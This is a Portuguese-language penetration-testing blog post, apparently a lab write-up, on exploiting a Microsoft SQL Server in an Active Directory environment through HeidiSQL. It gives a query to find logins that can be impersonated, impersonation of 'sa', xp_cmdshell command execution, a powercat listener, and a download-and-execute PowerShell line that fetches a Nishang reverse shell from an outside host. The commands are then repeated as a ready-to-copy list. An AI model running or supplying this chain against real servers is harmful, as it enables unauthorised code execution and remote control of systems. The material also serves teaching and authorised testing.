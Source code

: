```yaml
---
title: "Active Directory - HeidiSQL"
tags: [Windows, Active Directory]
categories: ActiveDirectory
---
```


![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/heidisql.png)

# Considerações Iniciais

Agora, vamos fazer o SQL de maneira diferente, através do acesso que temos nele, utilizando o HeidiSQL

Link para download do HeidiSQL

[HeidiSQL](https://www.heidisql.com/download.php)

E claro, obviamente, esconderei todas as menções para qual ambiente estou realizando a enumeração, aqui é apenas para fins didáticos!

# Conectando na Database

Uma vez que verificamos que temos uma database acessível lá no PowerUpSQL agora é hora de verificarmos se temos acesso a ela

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/heidi.png)

Conseguimos conexão!

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/heidi1.png)

# Explorando o servidor

Uma vez conectados agora é hora de iniciar a exploração desse servidor

## User Impersonation

Uma vez logados no HeidiSQL, devemos procurar por usuários que temos poder de impersonificar, no caso rodar como se fosse 'runas', os comandos para verificar isso são:

```
SELECT DISTINCT b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/heidi2.png)

Fontes:

[Link 1](https://blog.netspi.com/hacking-sql-server-stored-procedures-part-2-user-impersonation/)

[Link 2](https://cheats.philkeeble.com/active-directory/mssql)

Verificamos que podemos impersonificar dois usuários, o `sa` e o `dbuser`

Então vamos lá!

## Remote Code Execution

```
EXECUTE AS LOGIN = 'dbuser'
EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'whoami'
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/heidi3.png)

Temos RCE!

Agora é só pegar um reverse shell ali!

Iremos utilizar o `Invoke-PowerShellTCP.ps1` do Nishang

[PowerShellTCP](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

O `HFS` para hospedar nosso servidor web onde o servidor remoto irá fazer as requisições

[HFS](https://www.rejetto.com/hfs/)

E o `powercat` para receber a conexão reversa

[PowerCat](https://github.com/besimorhino/powercat/blob/master/powercat.ps1)

Setamos o powercat na porta 443 para receber a conexão reversa

`powercat -l -v -p 443 -t 1000`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/rev.png)

Arrumamos (colocamos a chamada da função no final dela pra automaticamente executar o reverse shell) e upamos o Invoke-PowerShellTCP.ps1 no HFS

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/rev1.png)

Executamos a chamada no HeidiSQL e recebemos a reverse shell!

```
EXECUTE AS LOGIN = 'dbuser'
EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'powershell.exe IEX((New-Object Net.WebClient).DownloadString(''http://192.168.50.196/Invoke-PowerShellTCP.ps1''))'
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/heidi4.png)

Show!

# Conclusão

Então agora terminamos de explorar o MSSQLServer por outro modo, através do HEIDISql.

## Comandos Utilizados

```
SELECT DISTINCT b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
```

```
EXECUTE AS LOGIN = 'dbuser'
EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'whoami'
```

`powercat -l -v -p 443 -t 1000`

```
EXECUTE AS LOGIN = 'dbuser'
EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'powershell.exe IEX((New-Object Net.WebClient).DownloadString(''http://192.168.50.196/Invoke-PowerShellTCP.ps1''))'
```